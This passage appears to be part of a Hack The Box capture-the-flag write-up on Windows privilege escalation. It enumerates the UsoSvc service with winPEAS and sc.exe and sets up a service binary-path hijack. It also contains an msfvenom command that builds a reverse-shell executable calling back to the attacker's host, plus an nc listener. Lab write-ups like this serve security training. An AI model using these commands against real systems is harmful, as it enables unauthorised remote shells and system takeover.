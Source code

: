 ```powershell
PS C:\windows\system32\inetsrv> cd c:\Windows\System32\spool\drivers\color\
PS C:\Windows\System32\spool\drivers\color> .\winPEASx64.exe
```

`winPEAS` revealed that we have all access to the service `UsoSvc`:

![](/assets/img/htb/machines/windows/easy/remote/winPEAS.png)

Let's get the current status and config of the service:

```powershell
PS C:\Windows\System32\spool\drivers\color> sc.exe query UsoSvc

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\Windows\System32\spool\drivers\color> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
```

Okay, maybe we can stop the service and try to change its `BINARY_PATH_NAME` by a malicious file.

- We can generate a malicious executable with `msfvenom` and start a listener:

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f exe -o privesc.exe                                                            
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: privesc.exe
$ nc -lnvp 53
listening on [any] 53 ...
```
